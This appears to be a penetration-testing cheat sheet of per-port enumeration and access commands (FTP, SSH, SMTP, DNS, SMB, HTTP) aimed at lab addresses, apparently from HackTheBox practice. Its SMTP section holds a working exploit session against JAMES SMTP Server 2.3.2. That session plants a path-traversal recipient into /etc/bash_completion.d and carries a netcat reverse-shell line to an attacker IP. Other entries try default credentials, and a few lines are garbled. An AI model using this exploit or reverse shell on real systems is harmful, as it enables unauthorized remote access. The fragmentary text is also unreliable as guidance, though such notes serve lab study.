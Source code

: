 FTP-21:
----------------
       ftp 10.10.10.10
       username:anonymous
       password:password
       
       
       ftp 10.10.10.10
       username:password:)
       password:password       psy shell
       
SSH-22:
------------------
       ssh user@10.10.10.10
       ssh -i id_rsa user@10.10.10.10
       ssh -L 5001:127.0.0.1:5009 user@10.10.10.10
       ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
       ssh permission 400 or 600
       
TELNET-23:
-------------------
       telnet 10.10.10.10  
       telnet 10.10.10.10 53 (Banner grabbing)
       
SMTP-25:
-------------------
       220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
       EHLO bla.bla
       250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
       250-PIPELINING
       250 ENHANCEDSTATUSCODES
       MAIL FROM: <'random@random.com>
       250 2.1.0 Sender <'random@random.com> OK
       RCPT TO: <../../../../../../../../etc/bash_completion.d>
       250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
       DATA
       354 Ok Send data ending with <CRLF>.<CRLF>
       FROM: bla.bla
       '
       /bin/nc -e /bin/bash 10.10.14.12 1234
       .
       250 2.6.0 Message received
       quit
       
      
DNS-53:
--------------------------------
       nslookup
       server 10.10.10.10
       10.10.10.10
       
       
       host -l hack.htb 10.10.10.10
       
HTTP-80:
-----------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
Kerberos-88:
------------------------------------




POP3-110:
------------------------------------
       nc 10.10.10.10 110
       USER  mindy
       PASS password
       
       telnet 10.10.10.10   110
       username:
       root
       password:
       root
       
RPCBIND-111:
-------------------------------------
       rpcbind -p 10.10.10.10
       
MSRPC-135:
-------------------------------------
       NMAP SCRIPTS
       METASPLOIT
SMB(139 OR 445):
-----------------------------------
       smbclient -L 10.10.10.10
       smbmap -R -H 10.10.10.10
       enum4linux -a 10.10.10.10
       rpcclient -U "" 10.10.10.10
       nbtscan -r 10.10.10.0/24
       metasploit  (psexec)
       
IMAP(143 OR 993):
-----------------------------------
       
SNMP(162 OR 163):
-----------------------------------

HTTPS-443:
---------------------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
       
